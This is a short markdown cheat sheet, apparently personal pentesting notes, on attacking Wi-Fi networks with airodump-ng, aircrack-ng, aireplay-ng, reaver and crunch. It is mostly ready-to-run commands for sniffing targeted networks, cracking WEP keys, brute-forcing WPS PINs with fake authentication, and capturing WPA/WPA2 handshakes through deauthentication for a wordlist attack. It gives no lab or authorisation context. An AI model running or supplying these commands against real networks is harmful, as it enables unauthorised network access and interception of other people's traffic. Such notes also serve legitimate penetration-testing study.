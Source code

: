 # airodump-ng (Packet Sniffing)

> [Official page](https://www.aircrack-ng.org/doku.php?id=airodump-ng)

```
airodump-ng <monitor_interface>
```

## Sniff specific band

```
airodump-ng --band a <monitor_if>  // 5Ghz
airodump-ng --band abg <monitor_if> // 2.4Ghz & 5Ghz
```

## Targeted Packet Sniffing

The following command will create a `.cap` file that can later be analyzed with Wireshark.

```
airodump-ng --bssid <MAC> --channel <client_CH> --write test <monitor_if>
```

You will see a section listing `STATION`, which are the clients/devices connected to the BSSID's network

## Cracking WEP

1. Capture large number of packets/IVs (_airodump-ng_)
2. Analyse captured IVs and crack key (_aircrack-ng_)

```
// while sniffing network
// can use Fake Authentication & ARP Replay attack to generate new packets
aircrack-ng <CAP_FILE>
```

## Cracking WPS (WPA/WPA2)

We'll use _Reaver_ to bruteforce WPS pin.

```
wash --interface <MONITOR_INTERFACE>

aireplay-ng --fakeauth 30 -a <TARGET_MAC> -h <MONITOR_IF_MAC> <MONITOR_IF_NAME>

reaver --bssid <TARGET_NETWORK_MAC> --channel <AP_CHANNEL> --interface <MONITOR_IF_NAME> -vvv --no-associate
```

## Cracking WPA/WPA2

We need _handshake packets_.

* The handshake does not contain data that helps recover the key.
* The handshake contains data that can be used to check if a key is valid or not.

```
airodump-ng --bssid <TARGET_MAC> --channel <TARGET_CHANNEL> --write <FILE_NAME> <MONITOR_IF_NAME>
```

We can use _Deauthentication Attack_ to trigger re-connection and handshake packets.

Once we get a handshake packet we can do a __wordlist attack__.

Create a wordlist with a tool such as _crunch_.

```
aircrack-ng <CAP_FILE> -w <WORDLIST_FILE>
```
